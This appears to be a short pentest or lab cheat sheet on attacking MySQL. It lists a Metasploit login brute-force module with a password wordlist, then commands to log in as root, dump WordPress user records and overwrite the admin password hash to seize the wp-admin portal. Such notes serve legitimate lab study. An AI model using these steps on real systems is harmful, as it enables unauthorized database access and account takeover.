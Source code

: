 # SQL

- port : 3306
- auxiliary/scanner/mysql/mysql_login
- set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
- sample exploitation strategy after identifying sql password
- mysql -u root -p -h 10.0.25.212
	- show databases;
	- use wordpress;
	- show tables;
	- select * from wp_users;
	- UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
	- After changing WP-ADMIN password, login to the portal - http://<TARGET-IP>/8585/wordpress/wp-admin
